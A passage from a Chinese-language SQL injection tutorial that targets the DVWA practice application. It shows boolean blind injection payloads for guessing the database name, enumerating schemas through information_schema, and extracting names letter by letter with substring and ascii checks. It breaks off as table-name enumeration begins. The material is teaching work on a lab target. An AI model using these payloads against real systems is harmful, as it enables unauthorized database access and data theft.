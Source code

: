 最终得到，用户名为：`root@localhost`

如果想猜测当前数据库，其原理也和上文一样。

首先猜数据库的长度（方法和上方一样），经过注入发现长度为4
`1' and length(database())=4#`

然后，依次注入4位数据库库名的字母。

```sql
1' and substring(database(),1,1)='d'#
1' and substring(database(),2,1)='v'#
1' and substring(database(),3,1)='w'#
1' and substring(database(),4,1)='a'#
```

得到当前数据库库名为`dvwa`

#### 5.2.1 盲注库名

我们可以依照显著的顺序，构造盲注的攻击语句。从而拿下整个数据库。

比如，显著查找数据库库名：

```
1' and 1=2 union select 1,schema_name from information_schema.schemata #
```

盲注更加复杂一些，要分解为以下几个步骤：

1.注入查询有几个库

```
1' and (select count(schema_name) from information_schema.schemata) =6 #
```

2.注入第一个库名长度

```
1' and length((select schema_name from information_schema.schemata limit 0,1))=18 #
## limit 0,1代表截取第一行。limit 0,2代表截取前两行，limit 1,1，代表截取第二行。limit 2,3代表截取从第三行到第五行。
```

3.注入第一个库名

```
1' and substring((select schema_name from information_schema.schemata limit 0,1),1,1)='i' #
1' and substring((select schema_name from information_schema.schemata limit 0,1),2,1)='n' #

这两条也可以用ASCII码代替。
1' and ascii(substr((select schema_name from information_schema.schemata limit 0,1),1,1))=105 #
1' and ascii(substr((select schema_name from information_schema.schemata limit 0,1),2,1))=110 #

事实上这个库名我们知道是默认的information_schema
```

#### 5.2.2 盲注表名

与上面的逻辑一样。盲注表名也分为三个步骤：1.盲注查询库内有多少个表；2.盲注查询库内第一个表表名的长度；3.盲注查询库内第一个表的表名

1.盲注查询库内有多少个表
